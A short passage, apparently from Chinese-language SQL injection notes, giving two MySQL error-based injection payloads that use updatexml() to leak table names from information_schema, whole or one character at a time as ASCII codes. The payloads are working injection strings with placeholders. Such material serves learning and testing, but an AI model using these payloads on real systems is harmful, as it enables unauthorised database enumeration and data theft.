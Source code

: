 ```mysql
# 通过 limit 来指定第几个，但是表名过长的话会导致显示不完整，mysql报错输出内容有长度限制
updatexml(1,concat(0x7e,(SELECT(CONCAT(table_name))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个表,1),0x7e),1)
```

![image-20250222161805014](static/image/image-20250222161805014.png)

```mysql
# 获取表名ASCII码
updatexml(1,concat(0x7e,(SELECT(ASCII(SUBSTR(table_name,第x位,1)))FROM(information_schema.tables)WHERE(table_schema='数据库名') limit 第x个数表,1),0x7e),1)
```
